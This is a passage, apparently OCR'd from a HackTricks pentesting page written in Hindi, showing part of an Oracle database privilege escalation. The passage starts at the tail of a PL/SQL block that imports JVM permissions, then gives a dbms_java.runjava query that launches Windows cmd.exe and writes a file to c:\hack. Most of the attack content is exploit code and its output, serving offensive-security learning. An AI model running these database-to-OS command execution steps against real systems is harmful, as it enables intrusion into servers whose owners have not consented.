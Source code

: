 ```text
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/

PL/SQL procedure successfully completed.
```
अब जब आपके पास Java प्रक्रियाओं को बुलाने की अनुमति है, तो आप Windows interpreter से प्रतिक्रिया उत्पन्न कर सकते हैं और कुछ कार्य को निष्पादित कर सकते हैं:
```text
SQL&gt; select dbms_java.runjava(‘oracle/aurora/util/Wrapper c:\\windows\\system32\\cmd.exe /c echo 123 &gt;c:\\hack’)from dual;
```
<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
